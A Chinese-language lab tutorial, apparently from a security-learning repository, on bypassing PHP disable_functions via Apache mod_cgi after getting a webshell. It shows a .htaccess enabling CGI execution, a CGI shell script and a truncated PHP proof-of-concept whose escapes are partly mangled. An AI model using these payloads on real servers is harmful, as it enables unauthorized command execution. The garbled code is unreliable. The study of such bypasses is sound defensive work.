 搭建完成后访问 http://your-ip:18080：

![image-20210525155059472](https://cdn.jsdelivr.net/gh/Qiangshen01/SecurityLearning/Web/bypass/Disable_functions/images_20210525155101.png)

用蚁剑拿到shell后无法执行命令：

![image-20210525155130053](https://cdn.jsdelivr.net/gh/Qiangshen01/SecurityLearning/Web/bypass/Disable_functions/images_20210525155313.png)

执行phpinfo发现设置了disable_functions：

![image-20210525154518385](https://cdn.jsdelivr.net/gh/Qiangshen01/SecurityLearning/Web/bypass/Disable_functions/images_20210525154520.png)

并且发现目标主机Apache开启了CGI，Web目录下有写入的权限。

我们首先在当前目录创建 .htaccess 文件，写入如下：

```
Options +ExecCGI
AddHandler cgi-script .ant
```

然后新建 shell.ant 文件，写入要执行的命令：

```
#!/bin/sh
echo Content-type: text/html
echo ""
echo&&id
```

**注意：**这里讲下一个小坑，linux中CGI比较严格，上传后可能会发现状态码500，无法解析我们bash文件。因为我们的目标站点是linux环境，如果我们用(windows等)本地编辑器编写上传时编码不一致导致无法解析，所以我们可以在linux环境中编写并导出再上传。

![image-20210525155434548](https://cdn.jsdelivr.net/gh/Qiangshen01/SecurityLearning/Web/bypass/Disable_functions/images_20210525155436.png)

此时我们的shell.xxx还不能执行，因为还没有权限，我们使用php的`chmod()`函数给其添加可执行权限：

![image-20210525155513465](https://cdn.jsdelivr.net/gh/Qiangshen01/SecurityLearning/Web/bypass/Disable_functions/images_20210525155515.png)

最后访问shell.ant文件便可成功执行命令：

![image-20210525155545250](https://cdn.jsdelivr.net/gh/Qiangshen01/SecurityLearning/Web/bypass/Disable_functions/images_20210525155634.png)

给出一个POC脚本：

```php
<?php
$cmd = "ls /"; //command to be executed
$shellfile = "#!/bin/bashn"; //using a shellscript
$shellfile .= "echo -ne "Content-Type: text/html\n\n"n"; //header is needed, otherwise a 500 error is thrown when there is output
$shellfile .= "$cmd"; //executing $cmd
function checkEnabled($text,$condition,$yes,$no) //this surely can be shorter
{
    echo "$text: " . ($condition ? $yes : $no) . "<br>n";
}
if (!isset($_GET['checked']))
{
    @file_put_contents('.htaccess', "nSetEnv HTACCESS on", FILE_APPEND); //Append it to a .htaccess file to see whether .htaccess is allowed
    header('Location: ' . $_SERVER['PHP_SELF'] . '?checked=true'); //execute the script again to see if the htaccess test worked
}
else
{
    $modcgi = in_array('mod_cgi', apache_get_modules()); // mod_cgi enabled?
    $writable = is_writable('.'); //current dir writable?
    $htaccess = !empty($_SERVER['HTACCESS']); //htaccess enabled?
        checkEnabled("Mod-Cgi enabled",$modcgi,"Yes","No");
```
